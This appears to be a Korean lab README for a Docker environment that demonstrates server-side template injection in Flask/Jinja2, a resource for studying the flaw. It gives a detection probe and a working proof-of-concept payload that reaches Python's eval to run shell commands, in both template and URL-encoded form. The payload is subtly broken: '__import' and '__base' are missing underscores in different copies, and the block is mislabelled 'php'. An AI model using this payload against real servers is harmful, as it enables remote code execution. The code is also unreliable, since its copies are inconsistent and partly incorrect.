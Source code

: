 
Flask(Jinja2) 서버 템플릿 주입 취약점
원리
참고 문헌:

https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf
http://rickgray.me/use-python-features-to-execute-arbitrary-codes-in-jinja2-templates
테스트
테스트 환경을 빌드하고 실행합니다:

Copy code
docker compose build
docker compose up -d
http://your-ip/?name={{233*233}}에 접속하여 54289를 얻으면 SSTI 취약점이 존재함을 의미합니다.

eval 함수를 얻고 임의의 Python 코드를 실행하는 POC:

php
Copy code
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import("os").popen("id").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
http://your-ip:8000/?name=%7B%25%20for%20c%20in%20%5B%5D.__class__.__base.__subclasses__()%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22id%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D에 접속하여 실행 결과를 얻을 수 있습니다:
